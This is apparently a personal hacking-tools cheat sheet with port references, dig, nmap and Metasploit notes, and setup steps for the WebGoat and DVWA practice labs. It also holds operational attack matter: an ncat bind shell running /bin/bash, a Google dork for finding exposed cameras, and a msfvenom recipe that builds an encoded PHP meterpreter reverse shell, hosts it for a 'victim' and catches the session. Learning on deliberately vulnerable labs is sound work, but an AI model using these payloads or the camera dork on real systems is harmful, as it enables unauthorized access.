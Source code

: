 # Hacking Tools

******************** Ports information **************************
There are 65535 port numbers (2^16).

20 and 21: FTP (File Transfer Protocol --> Transfer files between client and server)
22: SSH (Secure Shell --> Tunneling protocol for secure network connection)
23: Telnet
25: SMTP (Simple Mail Transfer Protocol --> Used for email)
53: DNS (Domain Name System --> Domain names to ip adresses)
67 and 68: DHCP (Dynamic Host Configuration Protocol --> Assigns IP adresses to devices dynamically)
80: HTTP (Hypertext Transfer Protocol --> Makes world wide web possible)
110: POP3 (Post Office Protocol --> For receiving emails)
123: NTP (Network Time Protocol --> Clocks synchronization)
143: IMAP (Internet Message Access Protocol --> For receiving emails)
179: BGP (Boder Gateway Protocol --> Used for establish connections between large networks)
443: HTTPS (Hypertext Transfer Protocol Secure --> Secure and encrypted version of http)
500: ISAKMP (Internet Security Association and Key Management Protocol --> Is part of the process of setting up secure IPsec connections)
3389: RDP (Remote Desktop Protocol --> Allows users to connect their computers from another device)

More information at:  (IANA --> Internet Assigned Numbers Authority) https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml
*************************************************************

## DIG

Tool for interrogating DNS name servers.

Get a DNS response (information about a domain):

```Shell
dig ns<number of server>.<domain>
```

Get simplified response (only ip address):

```Shell
dig +short ns.<domain>

// Get one of the google´s ip adresses
dig +short ns.google.com
```

Get belonging domain of an ip:

```Shell
dig +short -x <IP adress>
```






inurl:"ViewerFrame?Mode=" (useful for finding cameras)


--------NCAT (Tool for reading and writing data across the network)----------------

ncat -l 127.0.0.1 8080 (Use ncat as a server running in port 8080)
ncat 127.0.0.1 8080 (Establish a connection with the server)

// It behaves like a real time chat

ncat -l --exec "/bin/bash" 127.0.0.1 8080 (For execute the given command)


------------------------ARMITAGE (Graphical user interface for Metasploit)------------------------

----------------------------------------METASPLOIT------------------------------------------------

*(S): For shell commands

// Metasploit modules are: Exploits, payloads, auxiliary, encoders, nops, posts, evasion.
// Modules are located in: /usr/share/metasploit-framework/modules
// Try to run the database service to initialize the msf faster 'service postgresql start'
// Dictionaries for brute-force attacks available at /usr/share/metasploit-framework/data/wordlists

msfdb (Manage metasploit framework database) (S)
msfconsole (Intiallize the metasploit framework) (S)

banner (Display a banner)
db_status (Check the metasploit frmaework database status)
use <module> (Use a certain metasploit module)
show <options> (Show information about a moudule)
set <option> <value> (Set options, use 'show options' to see them)
search <field> <parameter> (Make queries about modules. e.g. type:payload)
back (Return to metasploit framework main command line interface)
run (Running an auxiliary)
exploit (Running an exploit)

// msfvenom is a payload generator
// For instance, we can make a reverse shell  by using the payload 'php/meterpreter/reverse_tcp'

msfvenom -p <payload> <option>=<value> <other optional flags> > <file name to contain the payload>
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Our ip address> LPORT=4444 -e php/base64 -f raw > shell.php (Setting the payload with our machine listening. '-e' flag for setting an appropiate encoder, '-f' flag for setting the file format as a raw file, also we are saving the payload into 'shell.php' file)

// LPORT is 4444 by default (try 'msfvenom -p <payload> --list-options' for looking for options)
// Inside the file we'll find a single line of base64 encoded payload, so we wrap that line like that:
<?php
<encoded payload>
?>
// Then the machine will read it as php code

// Now we can start an apache2 web server so the victim download the payload from there. Copy the file into '/var/www/html', start the server and enter your ip adress into the browser.
// Go to msfconsole and use 'exploit/multi/handler' then set LHOST to your address and run the exploit for start listening. Once the victim machine opens the file a session will be created.



----------------------------------------NMAP-------------------------------------------------------

// Use -sS for a stealth scan, -sT flag is louder. Use -sV for showing services version

nmap <flags> <IP adress> (See open ports)


---------------------------------------------------------------------------------------------------

// WebGoat is a deliberately insecure web application maintained by OWASP designed to teach web application security lessons. 
docker run -it -p 127.0.0.1:80:8888 -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/goatandwolf:v8.2.2 (Starting WebGoat)
// Web application located at: http://127.0.0.1:8080/WebGoat/login


// Now we are going to set up the DVWA web application
// We put DVWA file into /var/www/html
// Accesing MariaDB
mysql -u root -p
// mysql commands ends with semicolon
CREATE DATABASE dvwa; (Creating a database called dvwa)
GRANT all ON dvwa.* to dvwa@localhost identified by 'password'; (Granting permissions to the database)
flush privileges;
// Exit the MariaDB and rename the file into /var/www/html/DVWA/config
mv config.inc.php.dist config.inc.php
// Rewrite the file so set the user and the password to the ones setted in the database created
// Rewrite /etc/php/7.4/apache2/php.ini: allow_url_include = On
// Restart php service
// Enter localhost and create database
// Log in with admin123:password

--------------------------------------ZED ATTACK PROXY---------------------------------------------

// Install zaproxy
// For quick scan use: http://www.webscanttest.com

---------------------------------------------------------------------------------------------------